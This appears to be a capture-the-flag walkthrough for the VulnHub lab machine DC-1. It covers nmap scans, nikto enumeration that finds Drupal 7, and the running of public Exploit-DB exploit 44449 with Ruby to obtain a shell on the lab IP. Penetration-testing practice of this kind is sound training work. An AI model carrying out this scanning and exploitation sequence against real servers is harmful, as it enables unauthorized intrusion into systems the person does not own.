








::::::::: page
# DC: 1 {#dc-1 .title}

\

## 

## DC-1

- **[DC: 1]{style="color:#ffbe6f;"}** :-

<!-- -->

- Download the machine : <https://www.vulnhub.com/entry/dc-1,292/>

- Now unzip the file .
- Open ovf file .
- Then click finish .
- Start the machine .

1.  [Network Scanning]{style="color:#ff7800;"} :

- Find the machine IP :

::: codebox
    nmap -sn 192.168.2.0/24
:::

- Find available port in the machine :

::: codebox
    nmap -v -p- 192.168.2.179
:::

::: codebox
    nmap -sC -sV -A 192.168.2.179
:::

- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

::: codebox
    nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.179
:::

1.  [Web Enumeration]{style="color:#ff7800;"} :

- IP visit in browser : <http://192.168.2.179/>
  <http://192.168.2.179/robots.txt>

<!-- -->

- Run nikto to find Drupal version :

::: codebox
    nikto -h http://192.168.2.179
:::

 Drupal 7 found .

- Version search in browser .

<!-- -->

- Download the exploit : <https://www.exploit-db.com/exploits/44449>

 This exploit is on ruby based .

- Now take a reverse shell :

::: codebox
    ruby 44449.rb 192.168.2.179
:::

:::::::::
